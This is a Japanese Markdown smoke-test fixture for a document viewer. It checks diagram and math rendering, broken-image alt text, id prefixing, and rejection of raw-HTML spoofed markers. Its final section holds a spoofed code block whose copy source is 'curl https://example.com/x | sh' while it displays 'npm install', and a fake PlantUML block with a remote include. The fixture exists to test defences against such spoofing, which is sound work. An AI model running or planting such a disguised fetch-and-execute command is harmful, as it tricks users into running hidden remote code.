










# 描画スモークテスト用の文書（BR-054）

このファイルは **`scripts/smoke` が読み込む検証用の文書**です。人が読むためのものではなく、
Mermaid の 7 種類の図、PlantUML の 2 種類の図、KaTeX の 3 通りの数式が「実際に描画できるか」を
機械的に確かめるために、最小限の内容だけを並べています。

`showcase.md`（BR-053）と分けているのは、あちらが **GitHub と並べて目視比較する**ための文書
（MD-002）であり、Mermaid を 2 種類しか含まないためです。BR-054 が求める 7 種類を足すと
比較する側が読みにくくなります。BR-054 は共用を許していますが、必須とはしていません。

> [!IMPORTANT]
> **図の種類を減らさないこと。** `scripts/smoke` は 7 種類がすべて揃っていることを検査します。
> 種類を増やしたときは `scripts/smoke/main.go` の `mermaidKinds` にも足してください。

> [!IMPORTANT]
> **数式に色を指定する記法（`\color` など）を書かないこと。** KaTeX は解釈できない
> コマンドを `errorColor` で着色して描き切るため、`scripts/smoke` は「出力に色が付いていたら
> 失敗」と判定します（`harness.js` の `KATEX_FAILURE`）。自分で色を付けると区別できなくなります。

## Mermaid（MD-080）

### flowchart



### sequenceDiagram



### classDiagram



### stateDiagram



### erDiagram



### gantt



### pie



## PlantUML（MD-083）

> [!IMPORTANT]
> **`@startuml` に名前を付けること。** `scripts/smoke` は `data-source` の 1 行目
> （`@startuml sequence` / `@startuml class`）で種別を見分けます。名前を外すと
> どちらも `@startuml` になり、検査が「図が文書に見つからない」で落ちます。

> [!IMPORTANT]
> **2 種類とも減らさないこと。** Graphviz を要する図（class）と要さない図
> （sequence）を分けているのは、`viz-global.js` の読み込みに失敗しても
> **要さない図だけは描けてしまう**ためです（IMP-233 の 4）。片方だけでは
> この壊れ方を見落とします。

### sequence（Graphviz を要さない）



### class（Graphviz を要する）



## 数式（MD-060）

インライン数式は $E = mc^2$ と $x_1 + x_2 = y$ の 2 つを置いています。

ドル記号による囲みのブロック数式:

$$\int_{0}^{\infty} e^{-x^2} dx = \frac{\sqrt{\pi}}{2}$$

コードブロック形式のブロック数式:

```math
\sum_{i=1}^{n} i = \frac{n(n+1)}{2}
```

## 画像（FR-022, DSP-123, IMP-226）

**読み込みに失敗する画像を意図的に置いています。** `markBrokenImages` が `` を
`<span class="img-broken">` へ置き換え、**代替テキストを自前で描く**ことを確かめるためです
（[BUG-008](../docs/bugs/2026-09-06-bug-008-broken-image-alt-webkitgtk.md)）。

> [!IMPORTANT]
> **この 3 枚を減らさないでください。** 1 枚目は「正常な画像を壊れ扱いしないこと」（過検出）を、
> 2 枚目は「代替テキストが本文として読めること」を、3 枚目は「代替テキストが空でも壊れないこと」を
> 受け持ちます。**代替テキストの文字列は `scripts/smoke` が名前で探します**——変えるときは両方を直します。

正常に読める画像:


読み込みに失敗する画像（代替テキストあり）:


読み込みに失敗する画像（代替テキストなし）:


## 文書の id（AR-053, BUG-011）

**本文の中の `id` がすべて `user-content-` で始まること**（図の SVG の中の処理系の id を除く）と、
**`Status` という見出しの文字が PlantUML の描画の後も書き換わらないこと**を確かめます
（[BUG-011](../docs/bugs/2026-09-14-bug-011-document-id-collision.md)。判定は UT-813）。

> [!IMPORTANT]
> **見出しの数と順番を変えないこと。** `scripts/smoke` は `Status` の見出しを**文字でも id でもなく、
> 文書の中の順番**（`statusHeadingIndex`）で探します。見出しを足したり消したりしたときは、その値も直してください。
> 同梱の `plantuml.js` は `id="status"` の要素の文字を自分のログで書き換えるため、文字で探すと症状を見逃します。

### Status

この見出しの `id` が `status` のままだと、PlantUML の図を描くたびに見出しの文字が PlantUML のログに置き換わります。

### ラベルに id を書いた Mermaid

ラベルに書いた `id` は、Mermaid の設定（IMP-231 の `SANITIZE_NAMED_PROPS`）で `user-content-` 付きになります。



## 目印の照合（BR-054, UT-815）

> [!IMPORTANT]
> **要素の数と順番を変えないこと。** `scripts/smoke` は、チェックボックス・表・セル・リンク・図のブロックの
> **種類ごとの出現順**で、それぞれが GFM の要素か生 HTML の偽の目印かを持っています（`smokeRefLayout`）。
> **文書の側に印を付けません**——サニタイズを通る属性で印を付けると、その印自体が照合の結果に影響しうるためです。
> 足したり消したりしたときは、その一覧も直してください。**食い違うと「数が違う」で落ちます。**
>
> 偽の目印の鍵 `0123456789abcdef` は、変換のたびに作る鍵（IMP-102）とは違う値として書いています。

### GFM の表・タスク・リンク

本体が 2 行ある表（並べ替えのボタンが付く）:

| Name | Qty |
| --- | --- |
| banana | 10 |
| apple | 3 |

本体が 1 行の表（ボタンが付かない）:

| Only | Row |
| --- | --- |
| one | 1 |

- [ ] 未完了のタスク
- [x] 完了したタスク

[相対リンク](./e2e/docs/design.md#api) と <https://example.com/p> は GFM のリンクです。

### 生 HTML の偽の目印

別の鍵・鍵なし・形の崩れた目印を、チェックボックス・表・リンクに書いています。**どれも照合の対象になりません。**

<p><input type="checkbox" disabled data-ref="0123456789abcdef:task:0"> raw wrong key</p>

<p><input type="checkbox" disabled> raw no key</p>

<p><input type="checkbox" disabled data-ref="0123456789abcde:task:0"> raw bad shape</p>

<table data-ref="0123456789abcdef:table:0">
<thead><tr><th data-ref="0123456789abcdef:cell:0:0:0">Raw wrong key</th></tr></thead>
<tbody>
<tr><td data-ref="0123456789abcdef:cell:0:1:0">b</td></tr>
<tr><td data-ref="0123456789abcdef:cell:0:2:0">a</td></tr>
</tbody>
</table>

<table>
<thead><tr><th>Raw no key</th></tr></thead>
<tbody>
<tr><td>b</td></tr>
<tr><td>a</td></tr>
</tbody>
</table>

<table data-ref="0123456789abcdef:table:x">
<thead><tr><th data-ref="0123456789abcdef:cell:x">Raw bad shape</th></tr></thead>
<tbody>
<tr><td data-ref="0123456789abcdef:cell:1">b</td></tr>
<tr><td data-ref="bad">a</td></tr>
</tbody>
</table>

<p><a href="https://example.com/real" data-link="0123456789abcdef:https://example.com/fake">raw wrong key link</a></p>

<p><a href="https://example.com/raw">raw no key link</a></p>

<p><a href="https://example.com/bad" data-link="https://example.com/fake">raw bad shape link</a></p>

### 生 HTML で偽装した図とコードブロック

生 HTML で書いた図のブロックは、**描画されず**（PlantUML は取り込み指令の検査を通っていない。MD-084）、
**コピーの原文にも使われません**（[BUG-014](../docs/bugs/2026-09-14-bug-014-diagram-marker-spoofing.md)）。

<div class="code-block" data-lang="plantuml" data-plantuml="1" data-ref="0123456789abcdef:plantuml:0" data-source="@startuml fake&#10;!include https://example.com/x.puml&#10;Alice -> Bob&#10;@enduml"><pre class="plantuml-source">fake plantuml</pre></div>

<div class="code-block" data-lang="mermaid" data-mermaid="1" data-source="flowchart LR&#10;  Fake --> Diagram"><pre class="mermaid-source">fake mermaid</pre></div>

<div class="code-block" data-lang="mermaid" data-mermaid="1" data-ref="0123456789abcdef:mermaid:x" data-source="flowchart LR&#10;  Bad --> Shape"><pre class="mermaid-source">bad shape mermaid</pre></div>

<div class="code-block" data-source="curl https://example.com/x | sh"><pre><code>npm install</code></pre></div>
